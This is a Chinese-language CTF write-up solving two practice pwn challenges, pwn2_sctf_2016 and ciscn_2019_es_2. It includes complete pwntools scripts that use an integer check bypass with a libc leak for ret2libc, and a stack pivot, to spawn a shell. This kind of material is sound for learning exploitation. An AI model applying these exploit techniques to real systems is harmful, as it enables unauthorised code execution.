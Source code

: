 ```yaml
---
title: 'pwn2_sctf_2016'
date: 2023-12-30 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- `lib`地址泄露

![image-20231223203034800](../assets/img/old_imgs/image-20231223203034800.png)

> vuln()

1. 程序对输入的`v2`做了限制首先要利用整数绕过`if (v2 > 32)`的限制

2. 程序中没有现成的`shell`所以要通过`printf`泄露`lib`手动构造`shell`

   ```python
   from pwn import * 
   context.log_level = 'debug'
   io = process('./pwn2_sctf_2016')
   #io = gdb.debug('./pwn2_sctf_2016','break *vuln')
   elf = ELF('./pwn2_sctf_2016')
   Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
   printf_got = elf.got['printf']
   printf_plt = elf.plt['printf']
   vuln_addr = elf.sym['vuln']
   main_addr = elf.sym['main']
   offset =48
   #1.绕过限制
   io.sendlineafter('How many bytes do you want me to read?',b'-1')
   #2.泄露lib
   payload1 = b'A'*offset+p32(printf_plt)+p32(vuln_addr)+p32(printf_got)
   io.sendlineafter(b'data!\n',payload1)
   io.recvuntil('\n')
   a = io.recv(4)
   printf_addr = u32(a)
   print('lib->',hex(printf_addr))
   #3.构造shell
   baseoffset = printf_addr - Lib.symbols['printf']
   sys_addr = Lib.sym['system']+baseoffset
   shell_addr = baseoffset+next(Lib.search(b'/bin/sh'))
   io.sendlineafter(b'read?',b'-1')
   payload2 = b'A'*offset+p32(sys_addr)+p32(main_addr)+p32(shell_addr)
   io.recvuntil(b'data!\n')
   io.sendline(payload2)
   io.interactive()
   ```

   

# ciscn_2019_es_2

![image-20231225113135740](../assets/img/old_imgs/image-20231225113135740.png)

- 栈迁移

1. `read()`存在溢出,但是只有`0x30`个位置不能拿到shell,所以考虑栈迁移
2. 通过泄露参数`s`在栈上的位置,将`payload`写入栈上
3. 迁移栈到参数`s`的位置,运行写入的`payload`拿到shell

```assembly
leaved =>
mov esp,ebp 
pop ebp
#清除栈帧,初始化到执行前的样子
ret =>
pop eip
jmp
#相当于一个无条件转跳
```

![image-20231225110712276](../assets/img/old_imgs/image-20231225110712276.png)

> 泄露出`s`在栈上的偏移地址

![image-20231225124013883](../assets/img/old_imgs/image-20231225124013883.png)

> 完成栈迁移

```python 
from pwn import *
#context.log_level = 'debug'
io = process('./ciscn_2019_es_2')
#io = gdb.debug('./ciscn_2019_es_2','break *vul')
elf = ELF('./ciscn_2019_es_2')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
offset = 0x28
payload1 = b'A'*offset
io.sendafter(b"Welcome, my friend. What's your name?\n",payload1)
io.recvuntil(b'Hello,')
io.recvuntil(b'A'*0x28)
old_ebp = u32(io.recv(4))
s_addr = ebp_addr = old_ebp-0x10-offset
print('old_ebp -> ',hex(old_ebp))
print('s_addr -> ',hex(ebp_addr))
#pause()
payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00' #`\x00`截断
#32位程序中参数在函数的后0x10位置,所以填充p32(0)
payload2 = payload2.ljust(0x28,b'A')
payload2 += p32(s_addr)+p32(0x08048562) #填充满栈空间,用p32(s_addr)+p32(0x08048562)劫持`leave`完成迁移并填充上新的`leave&ret`
io.send(payload2)
io.interactive()
```
